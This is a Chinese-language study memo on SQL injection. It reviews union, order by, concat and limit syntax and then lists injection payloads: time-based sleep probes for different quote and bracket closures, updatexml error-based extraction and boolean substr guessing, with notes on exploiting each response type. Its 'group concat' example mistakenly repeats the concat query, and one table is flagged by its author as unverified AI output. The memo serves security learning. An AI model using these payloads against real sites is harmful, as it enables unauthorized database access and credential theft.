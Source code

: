 ### 常规语法备忘录

##### union 

```
# 联合查询，将 union select 的结果拼接在 select 结果的后面，要求字段数量相同。
select * from users union select 'a','b','c','d'
select * from users union select 1,2,3,4
select * from users union select null,null,null,null

# 有时候数据库还会要求 union select 的字段数据类型和 select 字段数据类型保持一致，但是 mysql 没有这种要求。
```

![image-20250520153411344](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520153411344.png)

以下是 union 语法是否需要匹配数据类型。（内容由 ai 生成，真实性自行判断）

| 数据库         | 类型匹配严格性                 | 隐式转换支持                     |
| :------------- | :----------------------------- | :------------------------------- |
| **MySQL**      | 较宽松（自动转换数值和字符串） | ✅ 支持，但依赖配置（如严格模式） |
| **PostgreSQL** | 严格                           | ❌ 通常需显式转换                 |
| **SQL Server** | 中等（部分隐式转换）           | ✅ 有限支持（如数字转字符串）     |
| **Oracle**     | 严格                           | ❌ 需显式转换                     |

##### order by

```
# 按照某个字段对查询结果进行排序。
# 如果是字符串，要求是某个字段名。
# 如果是数值，要求是字段的列数，而且要求数值小于列数总和（否则报错）
select * from users order by 3
```

![image-20250520153611762](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520153611762.png)

##### concat

```
# 用户输入格式，将结果的每行以用户给出的格式输出。
select concat(username,':',password) from users
```

![image-20250520153830242](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520153830242.png)

##### group concat

```
# 用户输入格式，将结果的每行以用户给出的格式拼接在一起输出。
select concat(username,':',password) from users
```

![image-20250520153931048](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520153931048.png)

##### limit

```
# 限制查询结果。例如：limit(1,2) 就是从第 1 条开始输出 2 条结果。（从 0 开始计数）
select * from users limit 1,2
```

![image-20250520154144441](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520154144441.png)

##### or

```
# 如果 or 为 1，会绕过 where 语句的范围限制。
select * from users where id=1 or 1=1
```

![image-20250520154519311](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520154519311.png)

### TIPS

```
id=1 and if(1=1,sleep(1),1)						# 无闭合
id=1" and if(1=1,sleep(1),1) and "1"="1			# 双引号闭合
id=1' and if(1=1,sleep(1),1) and '1'='1			# 单引号闭合
id=1') and if(1=1,sleep(1),1) and ('1')=('1 	# 单引号括号闭合
id=1) and if(1=1,sleep(1),1) and (1)=(1 		# 括号闭合
id=1") and if(1=1,sleep(1),1) and ("1")=("1 	# 双引号括号闭合

以上就是检测注入的闭合方式，如果能检测到sleep，在加上简单的判断，你将知道其闭合方式
```

注：如果以上的一个语句注入成功的话，并不代表着源码就按照这个语句闭合，比如说

```
id=1 and if(1=1,sleep(1),1)  能验证成功，也有可能是()闭合
id=1) and if(1=1,sleep(1),1) and (1)=(1 这个语句验证成功，原因如下：
SELECT * FROM security.users WHERE id=(1 and if(1=1,sleep(1),1)	) LIMIT 0,1
SELECT * FROM security.users WHERE id=1 and if(1=1,sleep(1),1)LIMIT 0,1

或者如果：id=1' and if(1=1,sleep(1),1) and '1'='1	语句能验证成功，也有可能是('')闭合：id=1') and if(1=1,sleep(1),1) and ('1')=('1       原因如下

SELECT * FROM security.users WHERE id='1' and if(1=1,sleep(1),1) and '1'='1' LIMIT 0,1
SELECT * FROM security.users WHERE id=('1' and if(1=1,sleep(1),1) and '1'='1	') LIMIT 0,1

总之，针对以上语句，如果有哪个语句验证成功，它加括号也能验证成功，此种情况有个优点：
如果你能测试成功一个语句，你将缩小判断它闭合方式的范围，
这个范围就是语句本身，或语句本身在加个()闭合，或其他闭合方式，或多个((()))括号的闭合
```

注：执行sleep()的时候一定要确保所有and连接的条件都为真，示例如下

```
在一个登录页面注入：
SELECT username, password FROM users WHERE username='' and password='' LIMIT 0,1
username=admin' and if(1=1,sleep(1),1) and '1'='1
password=123

SELECT username, password FROM users WHERE username='admin' and if(1=1,sleep(1),1) and '1'='1' and password='123' LIMIT 0,1
如果要sleep，那么需要条件（username='admin'）（'1'='1'）（password='123'）都成功，而如果password我们不知道，这个条件不成功，也就不sleep，如果你知道密码，把password改成正确的密码，这条语句也能使用

总结：只要and连接的条件有1个为假，sleep就不会执行
```

##### sql注入全回显、半回显、报错回显、无回显利用思路

- 全回显：
  - 通常是注入利用的内容=页面显示的内容
  - 利用：union select
- 半回显：
  - 通常是不回显数据库数据到页面，但是会在页面上显示是否有结果
  - 利用：and substr(database(),1,1) ='s'
    - 如果是预期回显结果，证明我们爆破的字符正确
    - 如果不是预期回显结果，直接pass
    - 写脚本
- 报错回显
  - 通常有mysql报错信息
  - 利用：and updatexml(1,concat(0x7e,database(),0x7e),1)
  - 直接把database内容会先到报错上
- 无回显
  - 没有任何回显，或注入成功后的回显和不成功的回显一模一样
  - 利用：and if(substr(database(),1,1)='s',sleep(1),1)
    - 如果sleep 1秒，爆破的字符正确
    - 如果没sleep，直接pass
    - 写脚本
